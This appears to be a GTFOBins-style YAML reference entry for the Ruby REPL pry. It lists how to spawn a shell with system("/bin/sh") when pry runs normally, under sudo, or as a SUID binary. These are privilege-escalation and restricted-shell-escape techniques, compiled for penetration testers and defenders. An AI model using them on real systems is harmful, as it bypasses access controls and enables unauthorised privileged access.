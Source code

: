 ```yaml
---
functions:
  shell:
    - code: |
        pry
        system("/bin/sh")
  sudo:
    - code: |
        sudo pry
        system("/bin/sh")
  limited-suid:
    - code: |
        ./pry
        system("/bin/sh")
---
```

